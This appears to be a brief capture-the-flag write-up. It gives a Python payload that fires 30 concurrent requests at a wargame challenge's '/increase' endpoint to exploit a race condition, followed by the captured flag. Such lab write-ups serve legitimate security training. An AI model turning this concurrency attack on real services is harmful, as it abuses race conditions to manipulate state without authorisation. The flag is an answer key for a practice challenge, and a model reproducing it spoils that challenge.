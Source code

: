 |

|

|

## Payload

```python
import threading
import requests

url = "http://war.knock-on.org:10015/increase" 

def increase_counter():
    try:
        response = requests.get(url)
        print(response.text) # 서버 응답
    except Exception as e:
        print(e)

threads = []

for _ in range(30):
    thread = threading.Thread(target=increase_counter)
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()
```

|

|

### FLAG

```bash
K0{Cl1ck_m00oor3_F4st3r_t0_3XPL01T!!!}
```

|

---